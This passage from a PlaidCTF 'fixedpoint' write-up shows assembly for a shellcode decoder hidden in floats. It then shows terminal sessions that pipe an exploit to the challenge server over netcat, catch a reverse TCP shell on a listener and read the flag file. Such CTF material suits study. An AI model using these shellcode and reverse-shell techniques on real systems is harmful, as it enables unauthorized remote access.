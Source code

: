 ```assembly
        inc     ebx                     ;
        pop     ebp                     ; 
        mov     dword ptr [edx], ebp    ; 
        inc     edx                     ; 
        inc     edx                     ;
        inc     edx                     ;
        inc     edx                     ;
        loop    EXTRACT_NEXT            ; 
        nop                             ; 
        nop                             ;
        mov     bl, 0xec                ;
        jmp     SKIP_TUPLES_2           ;
        jmp    eax                      ; jump to the shellcode
```

The last thing that we have to note is the endianess. If we want to store shellcode 11 22 33 44
the first 2 floats must be: 0x????4433 0x????2211 (little endian).

After all this, the reverse TCP shellcode is working and we can get the flag: 
    `PCTF{why_isnt_IEEE_754_IEEE_7.54e2}`

The code fixedpoint_expl.c was used to generate the shellcode:  

```
Terminal #1:
    root@nogirl:~/ctf/plaidctf# gcc fixedpoint_expl.c -o fxp && ./fxp > B
    root@nogirl:~/ctf/plaidctf# cat B | nc fixedpoint.pwning.xxx 7777
    ^C

    (connection will open once you terminate netcat)
```

```
Terminal #2:
    root@nogirl:~# nc -nvvl -p9743
        listening on [any] 9743 ...
        connect to [128.211.189.21] from (UNKNOWN) [13.90.215.254] 45300
        ls -la
            total 24
            drwxr-xr-x 2 root root 4096 Apr 17 02:08 .
            drwxr-xr-x 4 root root 4096 Apr 17 01:40 ..
            -rwxr-xr-x 1 root root 7424 Apr 17 01:40 fixedpoint_02dc03c8a5ae299cf64c63ebab78fec7
            -rw-r--r-- 1 root root   36 Apr 17 01:41 flag.txt
            -rwxr-xr-x 1 root root  268 Apr 17 02:01 wrapper
        id
            uid=1001(problem) gid=1001(problem) groups=1001(problem)
        cat flag.txt
            PCTF{why_isnt_IEEE_754_IEEE_7.54e2}
        exit
        sent 28, rcvd 373
```
___
